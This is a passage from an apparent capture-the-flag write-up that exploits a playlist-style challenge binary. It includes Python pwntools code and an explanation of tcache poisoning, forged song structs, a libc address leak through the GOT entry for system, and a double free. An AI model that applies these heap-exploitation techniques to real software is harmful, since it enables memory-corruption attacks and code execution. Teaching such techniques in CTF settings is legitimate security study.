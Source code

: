 ```python
playsong(43)
playsong(42)
freesong(43)
freesong(42)

stdsong(44, -1, "A"*0x690 + p64(0x4040be))
```

After this, we can allocate another 0x3c0 chunk (which one doesn't matter too much), which pops the tcache
head, making the tcache head point `&songs[1].album`. We can once more malloc an 0x3c0 chunk, which returns
`&songs[1].album`. For this, we choose song 19 such that `songs[18].contents = &songs[1].album`. 
After this, the fake chunk then gets memsetted.  This song was chosen because it means that the file length works out exacty so that `songs[18].fd` will be zeroed out but
`songs[18].contents` will not. The read, therefore, is `read(0, &songs[1].album, 0x3b3)`. Now we have control of the
songs array and can create some fake song structs.

We can set up these fake structs to do a few things: leak a libc address, 
cause a double free, and create a few songs with fd 0 for later use. The libc leak can be achieved by setting a song's
album or song to a GOT entry and viewing the playlist. For the double free, we can create a fake chunk of size 0x20, and 
set the contents pointer of two songs to this fake chunk. 
When we remove these songs (numbered 4 and 5), they will free their contents pointer, double free-ing our 0x20 fake chunk.
Note that when we remove a song the file descriptor is closed, so we have to set the file descriptor to a nonzero value (we don't want to close stdin, after all).

```python
playsong(25)
playsong(19)
fake_chunk = '\x00'*0x1a + p64(0x21) + '\x00'*8 + p64(0) + p64(elf.got['system']) + p64(0) + p64(0)  #the fake chunk
fake_pointer = '\x00' * 24 + p64(0xff) + p64(elf.got['system']) + p64(0) + p64(0x4040e0)             #for the double free
fake_song = '\x00' * 24 + p64(0) + p64(elf.got['system']) + p64(0) + p64(0)                          #the fd 0 songs

proc.send(fake_chunk + fake_pointer * 2 + fake_song * 3)
freesong(4)
proc.recvuntil("from ")
system_addr = proc.readuntil("\n\nSo", drop=True)
system_addr = u64(system_addr.ljust(8, '\x00'))
libc.address = system_addr - libc.symbols["system"]
print hex(libc.address)
freesong(5)
```

### don't stop make it pop
